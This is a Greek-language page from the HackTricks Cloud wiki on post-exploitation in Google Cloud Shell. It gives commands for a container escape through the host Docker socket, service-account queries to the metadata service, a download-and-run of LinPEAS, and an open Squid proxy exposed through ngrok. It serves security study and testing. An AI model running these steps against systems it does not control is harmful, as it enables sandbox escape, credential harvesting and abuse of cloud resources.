 # GCP - Cloud Shell Post Exploitation

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Για περισσότερες πληροφορίες σχετικά με το Cloud Shell ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Container Escape

Σημειώστε ότι το Google Cloud Shell εκτελείται μέσα σε ένα κοντέινερ, μπορείτε **εύκολα να διαφύγετε στον κεντρικό υπολογιστή** κάνοντας: 

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

Αυτό δεν θεωρείται ευπάθεια από την Google, αλλά σας δίνει μια ευρύτερη εικόνα του τι συμβαίνει σε αυτό το περιβάλλον.

Επιπλέον, παρατηρήστε ότι από τον κεντρικό υπολογιστή μπορείτε να βρείτε ένα διακριτικό λογαριασμού υπηρεσίας:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

Με τους ακόλουθους τομείς:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
{% endcode %}

Καταγράψτε τα μεταδεδομένα με LinPEAS:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

Μετά τη χρήση του [https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions) με το token του Service Account **δεν ανακαλύφθηκε καμία άδεια**...

### Χρησιμοποιήστε το ως Proxy

Αν θέλετε να χρησιμοποιήσετε την instance του google cloud shell σας ως proxy, πρέπει να εκτελέσετε τις παρακάτω εντολές (ή να τις εισάγετε στο αρχείο .bashrc):
```bash
sudo apt install -y squid
```
Απλώς για να σας ενημερώσω, το Squid είναι ένας διακομιστής http proxy. Δημιουργήστε ένα **squid.conf** αρχείο με τις παρακάτω ρυθμίσεις:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
αντιγράψτε το **squid.conf** αρχείο στο **/etc/squid**
```bash
sudo cp squid.conf /etc/squid
```
Τέλος, εκτελέστε την υπηρεσία squid:
```bash
sudo service squid start
```
Χρησιμοποιήστε το ngrok για να καταστήσετε τον proxy διαθέσιμο από έξω:
```bash
./ngrok tcp 3128
```
Μετά την εκτέλεση, αντιγράψτε το tcp:// url. Εάν θέλετε να εκτελέσετε τον proxy από έναν περιηγητή, προτείνεται να αφαιρέσετε το tcp:// μέρος και την θύρα και να βάλετε την θύρα στο πεδίο θύρας των ρυθμίσεων proxy του περιηγητή σας (το squid είναι ένας http proxy server).

Για καλύτερη χρήση κατά την εκκίνηση, το αρχείο .bashrc θα πρέπει να έχει τις εξής γραμμές:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
Οι οδηγίες αντιγράφηκαν από [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key). Ελέγξτε αυτή τη σελίδα για άλλες τρελές ιδέες για να τρέξετε οποιοδήποτε είδος λογισμικού (βάσεις δεδομένων και ακόμη και Windows) στο Cloud Shell.

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
